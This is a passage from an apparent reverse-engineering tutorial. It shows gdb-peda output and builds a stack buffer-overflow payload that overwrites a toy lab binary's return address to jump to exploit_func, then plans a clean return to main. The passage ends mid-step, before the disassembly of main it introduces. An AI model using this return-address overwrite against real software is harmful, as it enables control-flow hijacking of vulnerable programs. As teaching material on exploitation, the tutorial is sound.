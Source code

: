         [-------------------------------------code-------------------------------------]
        0x40056f <exploit_func+9>:   call   0x400430 <puts@plt>
        0x400574 <exploit_func+14>:  nop
        0x400575 <exploit_func+15>:  pop    rbp
        => 0x400576 <exploit_func+16>:  ret   0x400577 <vuln_func>:        push   rbp
        0x400578 <vuln_func+1>:      mov    rbp,rsp
        0x40057b <vuln_func+4>:      sub    rsp,0x10
        0x40057f <vuln_func+8>:      lea    rax,[rbp-0x10]
        [------------------------------------stack-------------------------------------]
        0000| 0x7fffffffd8d0 --> 0x400500 (<register_tm_clones+32>:     (bad))
        0008| 0x7fffffffd8d8 --> 0x7ffff7a2d830 (<__libc_start_main+240>:       mov    edi,eax)
        0016| 0x7fffffffd8e0 --> 0x0
        0024| 0x7fffffffd8e8 --> 0x7fffffffd9b8 --> 0x7fffffffdde4 ("/home/adwi/rev_eng_series/p
        ost_8/code1")
        0032| 0x7fffffffd8f0 --> 0x100000000
        0040| 0x7fffffffd8f8 --> 0x40059f (<main>:      push   rbp)
        0048| 0x7fffffffd900 --> 0x0
        0056| 0x7fffffffd908 --> 0x59578f7a66976798
        [------------------------------------------------------------------------------]
        Legend: code, data, rodata, value
        
        Breakpoint 3, 0x0000000000400576 in exploit_func ()
        gdb-peda$
        

*   The **ret** is about to get executed. Look at the top of the stack. It has some address **0x400500** to which the control jumps. Let us go a bit back and see how the stack looked just after **gets** of **vuln_func** was executed.
    
        <buffer: 'a' * 16><Old Rbp: 'b' * 8><Target Address><Some number: 0x400500>
        

*   Notice this. We had full control over the Return Address of **vuln_func**. So, it was overwritten with our Target Address. The **8-bytes** after that is this number **0x400500** which is turning out to be the Return Address of our **exploit_func**. This is a problem because we know that the program crashes if code at **0x400500** is executed.

*   So, do we have control over what the Return Address of **exploit_func** is? Absolutely.

*   The **<some number: 0x400500></some>** should be overwritten by the Address we want. That is easy. It will just add 8 more bytes into our exploit payload. **Right now**, our Exploit Payload is this:
    
        'a' * 16 + 'b' * 8 + '\x66\x05\x40\x00\x00\x00\x00\x00'
        

*   This is changed to this:
    
        'a' * 16 + 'b' * 8 + '\x66\x05\x40\x00\x00\x00\x00\x00' + <Some Return Address for exploit_func>
        

*   What would the ideal Return Address for exploit_func be such that our program doesn't crash? How is this idea: Can we go back to the main function? As in, can the Return Address of **exploit_func** be the Original Return Address of **vuln_func** - which is actually an instruction in main function.

*   Let's find out the Return Address of **vuln_func** . For that, let us look at disassembly of **main** :
    